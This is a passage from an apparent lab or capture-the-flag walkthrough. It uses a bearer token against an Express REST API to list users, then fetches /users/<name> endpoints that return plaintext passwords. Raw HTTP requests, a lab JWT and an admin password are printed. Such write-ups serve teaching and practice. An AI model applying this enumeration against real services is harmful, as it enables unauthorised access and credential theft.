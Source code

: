 ```

Connection: close


[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```
Note that here we are adding the token from the /login response as an `Authorization: Bearer [TOKEN]` and we get a response listing out all the users.

With a development background and someone that is familiar with APIs and routing it was worth trying the user ids in the url. Generally REST APIs use routing and the request method to help decide what to do. Routing works by taking arguments from the URL such as /users/[userid] where userid will then be used by the application to perform a task against that id.

so we try to browse directly to something like /users/1 with the authentication token still in the headers. We get a 404 not found, but if we use the name field instead of the id field we begin to get some results:
```
Request: 
GET /users/admin HTTP/1.1

Host: 10.10.10.137:3000

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0

Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5NzE1NTMwLCJleHAiOjE1NTk4MDE5MzB9.sMCOV6cpWIzHsfauFC579V9LqBvtQVYhyd5Z8CN_8sM

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1



Response:
HTTP/1.1 200 OK

X-Powered-By: Express

Content-Type: application/json; charset=utf-8

Content-Length: 45

ETag: W/"2d-6LfOUjcs63Zey9NM+wGG+B6F0ts"

Date: Wed, 05 Jun 2019 06:25:37 GMT

Connection: close



{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
```
Following the same format for all the users initially returned we end up with the following list of credentials:
```
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
```